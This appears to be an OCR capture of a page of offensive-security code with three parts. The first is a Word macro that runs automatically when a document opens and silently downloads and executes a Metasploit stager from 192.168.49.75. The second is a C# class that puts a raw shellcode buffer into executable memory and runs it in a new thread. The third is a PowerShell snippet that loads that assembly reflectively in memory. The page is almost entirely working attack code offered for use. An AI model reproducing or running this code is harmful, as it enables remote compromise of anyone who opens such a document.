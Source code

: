 1

2

3

macro

Sub Document_Open()
	MyMacro
End Sub

Sub AutoOpen()
	MyMacro
End Sub

Sub MyMacro()
	Dim str As String
	str = " powershell (New-Object System.Net.WebClient).DownloadFile('http://192.168.49.75/msfstaged.exe','msfstaged.exe')"
	Shell str, vbHide
	Dim exePath As String
	exePath = ActiveDocument.Path + "\msfstaged.exe"
	Wait (2)
	Shell exePath, vbHide
End Sub

Sub Wait(n As Long)
	Dim t as Date
	t = Now
	Do
		DoEvents
	Loop Until Now >= DateAdd("s", n, t)
End Sub

csharp

﻿using System;
using System.Collections.Generic;
using System.Linq;
using System.Text;
using System.Threading.Tasks;
using System.Diagnostics;
using System.Runtime.InteropServices;

namespace ClassLibrary1
{
    public class Class1
    {
        [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
        static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize,
 uint flAllocationType, uint flProtect);
        [DllImport("kernel32.dll")]
        static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize,
        IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr
       lpThreadId);
        [DllImport("kernel32.dll")]
        static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);

        public static void runner()
        {
            byte[] buf = new byte[713] {
0xfc,0x48,0x83,0xe4,0xf0,0xe8,0xcc,0x00,0x00,0x00,0x41,0x51,0x41,0x50,0x52,
0x51,0x56,0x48,0x31,0xd2,0x65,0x48,0x8b,0x52,0x60,0x48,0x8b,0x52,0x18,0x48,
0x8b,0x52,0x20,0x48,0x0f,0xb7,0x4a,0x4a,0x4d,0x31,0xc9,0x48,0x8b,0x72,0x50,
0x48,0x31,0xc0,0xac,0x3c,0x61,0x7c,0x02,0x2c,0x20,0x41,0xc1,0xc9,0x0d,0x41,
0x01,0xc1,0xe2,0xed,0x52,0x48,0x8b,0x52,0x20,0x8b,0x42,0x3c,0x48,0x01,0xd0,
0x41,0x51,0x66,0x81,0x78,0x18,0x0b,0x02,0x0f,0x85,0x72,0x00,0x00,0x00,0x8b,
0x80,0x88,0x00,0x00,0x00,0x48,0x85,0xc0,0x74,0x67,0x48,0x01,0xd0,0x8b,0x48,
0x18,0x44,0x8b,0x40,0x20,0x50,0x49,0x01,0xd0,0xe3,0x56,0x4d,0x31,0xc9,0x48,
0xff,0xc9,0x41,0x8b,0x34,0x88,0x48,0x01,0xd6,0x48,0x31,0xc0,0x41,0xc1,0xc9,
0x0d,0xac,0x41,0x01,0xc1,0x38,0xe0,0x75,0xf1,0x4c,0x03,0x4c,0x24,0x08,0x45,
0x39,0xd1,0x75,0xd8,0x58,0x44,0x8b,0x40,0x24,0x49,0x01,0xd0,0x66,0x41,0x8b,
0x0c,0x48,0x44,0x8b,0x40,0x1c,0x49,0x01,0xd0,0x41,0x8b,0x04,0x88,0x41,0x58,
0x41,0x58,0x48,0x01,0xd0,0x5e,0x59,0x5a,0x41,0x58,0x41,0x59,0x41,0x5a,0x48,
0x83,0xec,0x20,0x41,0x52,0xff,0xe0,0x58,0x41,0x59,0x5a,0x48,0x8b,0x12,0xe9,
0x4b,0xff,0xff,0xff,0x5d,0x48,0x31,0xdb,0x53,0x49,0xbe,0x77,0x69,0x6e,0x69,
0x6e,0x65,0x74,0x00,0x41,0x56,0x48,0x89,0xe1,0x49,0xc7,0xc2,0x4c,0x77,0x26,
0x07,0xff,0xd5,0x53,0x53,0x48,0x89,0xe1,0x53,0x5a,0x4d,0x31,0xc0,0x4d,0x31,
0xc9,0x53,0x53,0x49,0xba,0x3a,0x56,0x79,0xa7,0x00,0x00,0x00,0x00,0xff,0xd5,
0xe8,0x0e,0x00,0x00,0x00,0x31,0x39,0x32,0x2e,0x31,0x36,0x38,0x2e,0x34,0x39,
0x2e,0x37,0x35,0x00,0x5a,0x48,0x89,0xc1,0x49,0xc7,0xc0,0xbb,0x01,0x00,0x00,
0x4d,0x31,0xc9,0x53,0x53,0x6a,0x03,0x53,0x49,0xba,0x57,0x89,0x9f,0xc6,0x00,
0x00,0x00,0x00,0xff,0xd5,0xe8,0xa0,0x00,0x00,0x00,0x2f,0x72,0x50,0x38,0x75,
0x5a,0x34,0x78,0x69,0x77,0x4c,0x57,0x7a,0x71,0x37,0x4b,0x70,0x30,0x67,0x38,
0x49,0x42,0x51,0x50,0x57,0x49,0x74,0x55,0x5f,0x64,0x79,0x4a,0x6f,0x75,0x4b,
0x50,0x6b,0x58,0x44,0x39,0x7a,0x68,0x6f,0x4d,0x50,0x75,0x5f,0x6f,0x66,0x6e,
0x71,0x6a,0x62,0x74,0x6b,0x56,0x67,0x70,0x65,0x6c,0x78,0x53,0x39,0x50,0x55,
0x6b,0x6e,0x6f,0x48,0x78,0x33,0x54,0x39,0x42,0x5f,0x4b,0x2d,0x54,0x6d,0x7a,
0x66,0x4b,0x31,0x43,0x6b,0x65,0x35,0x4e,0x36,0x41,0x56,0x53,0x34,0x41,0x5f,
0x37,0x32,0x49,0x34,0x55,0x61,0x41,0x73,0x4a,0x59,0x74,0x6c,0x6c,0x6c,0x41,
0x44,0x63,0x58,0x71,0x74,0x58,0x57,0x61,0x51,0x65,0x57,0x36,0x52,0x32,0x79,
0x42,0x43,0x31,0x5f,0x5a,0x53,0x31,0x6d,0x49,0x6e,0x45,0x5f,0x72,0x45,0x54,
0x79,0x31,0x5a,0x4f,0x64,0x4e,0x52,0x71,0x58,0x42,0x79,0x54,0x6e,0x6f,0x65,
0x51,0x68,0x30,0x4e,0x00,0x48,0x89,0xc1,0x53,0x5a,0x41,0x58,0x4d,0x31,0xc9,
0x53,0x48,0xb8,0x00,0x32,0xa8,0x84,0x00,0x00,0x00,0x00,0x50,0x53,0x53,0x49,
0xc7,0xc2,0xeb,0x55,0x2e,0x3b,0xff,0xd5,0x48,0x89,0xc6,0x6a,0x0a,0x5f,0x48,
0x89,0xf1,0x6a,0x1f,0x5a,0x52,0x68,0x80,0x33,0x00,0x00,0x49,0x89,0xe0,0x6a,
0x04,0x41,0x59,0x49,0xba,0x75,0x46,0x9e,0x86,0x00,0x00,0x00,0x00,0xff,0xd5,
0x4d,0x31,0xc0,0x53,0x5a,0x48,0x89,0xf1,0x4d,0x31,0xc9,0x4d,0x31,0xc9,0x53,
0x53,0x49,0xc7,0xc2,0x2d,0x06,0x18,0x7b,0xff,0xd5,0x85,0xc0,0x75,0x1f,0x48,
0xc7,0xc1,0x88,0x13,0x00,0x00,0x49,0xba,0x44,0xf0,0x35,0xe0,0x00,0x00,0x00,
0x00,0xff,0xd5,0x48,0xff,0xcf,0x74,0x02,0xeb,0xaa,0xe8,0x55,0x00,0x00,0x00,
0x53,0x59,0x6a,0x40,0x5a,0x49,0x89,0xd1,0xc1,0xe2,0x10,0x49,0xc7,0xc0,0x00,
0x10,0x00,0x00,0x49,0xba,0x58,0xa4,0x53,0xe5,0x00,0x00,0x00,0x00,0xff,0xd5,
0x48,0x93,0x53,0x53,0x48,0x89,0xe7,0x48,0x89,0xf1,0x48,0x89,0xda,0x49,0xc7,
0xc0,0x00,0x20,0x00,0x00,0x49,0x89,0xf9,0x49,0xba,0x12,0x96,0x89,0xe2,0x00,
0x00,0x00,0x00,0xff,0xd5,0x48,0x83,0xc4,0x20,0x85,0xc0,0x74,0xb2,0x66,0x8b,
0x07,0x48,0x01,0xc3,0x85,0xc0,0x75,0xd2,0x58,0xc3,0x58,0x6a,0x00,0x59,0x49,
0xc7,0xc2,0xf0,0xb5,0xa2,0x56,0xff,0xd5 };
            int size = buf.Length;
            IntPtr addr = VirtualAlloc(IntPtr.Zero, 0x1000, 0x3000, 0x40);
            Marshal.Copy(buf, 0, addr, size);
            IntPtr hThread = CreateThread(IntPtr.Zero, 0, addr, IntPtr.Zero, 0,
IntPtr.Zero);
            WaitForSingleObject(hThread, 0xFFFFFFFF);
        }
    }
}


powershell

$assem = [System.Reflection.Assembly]::Load($data)
$class = $assem.GetType("ClassLibrary1.Class1")
$method = $class.GetMethod("runner")
$method.Invoke(0, $null)